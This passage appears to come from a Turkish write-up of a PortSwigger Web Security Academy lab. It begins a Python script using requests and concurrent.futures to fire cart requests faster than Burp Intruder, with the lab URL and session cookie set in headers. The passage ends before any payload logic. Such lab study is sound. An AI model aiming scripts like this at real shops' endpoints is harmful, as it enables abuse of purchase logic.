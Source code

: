 ![Untitled](0x14-e3d5610b147c47c69793fa5e6472953f/Untitled-18.png)

Bu kısımda Burp Suite Community Edition sürümünü kullandığımız için Intruder oldukça yavaş çalışmakta. Dolayısıyla bu aşamada kendi çözümümüzü bulmamız gerekmektedir. Bunun için Python ile bu request’i kendimiz gönderelim ve hızlıca hedefimize ulaşalım. Bunun için gerekli kod aşağıdaki şekilde işlemimizi gerçekleştirmektedir;

```python
import requests
import concurrent.futures

url = "https://0a1400c804682cf1806e67490044007a.web-security-academy.net/cart"
headers = {
    "Host": "0a1400c804682cf1806e67490044007a.web-security-academy.net",
    "Cookie": "session=fACf0Epflja19ct9cNxzAKWRFZxQCF4t",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "https://0a1400c804682cf1806e67490044007a.web-security-academy.net",
    "Referer": "https://0a1400c804682cf1806e67490044007a.web-security-academy.net/cart",
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Te": "trailers",
}

```